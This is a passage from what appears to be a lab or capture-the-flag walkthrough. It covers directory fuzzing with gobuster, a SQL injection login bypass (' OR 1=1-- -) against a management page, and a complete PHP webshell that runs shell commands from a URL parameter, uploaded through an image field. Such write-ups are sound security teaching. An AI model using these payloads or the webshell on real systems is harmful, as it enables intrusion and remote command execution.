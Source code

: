 * Fuzzing with `gobuster`:

```bash
gobuster dir -u http://10.10.208.196:445 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,txt -o gobuster/port_445.txt
```

**Interesting discovery:**

```
/management  (301) -> /management/
```

* Visiting `/management/` reveals a management interface with a **login page**:

![Management index](management-index.png)
![Management login](management-login.png)

---

## Accessing the Admin Dashboard

You can try basic SQL injection payloads to bypass this login form, here are some.

```sql
' OR 1=1-- -
admin'-- -
' OR 1=1 LIMIT 1-- -
```

**This one** worked for me:

```
' OR 1=1-- -
```

> Logging in with this bypassed authentication and accessed the dashboard.

![Management dashboard](management-dashboard.png)

---

## Uploading a Webshell

1. Navigate to **Administrator Admin** in the dashboard.
2. Use the profile image upload field to upload a PHP webshell.

**Example webshell:**

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
  <input type="TEXT" name="cmd" id="cmd" size="80">
  <input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
  if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
  }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
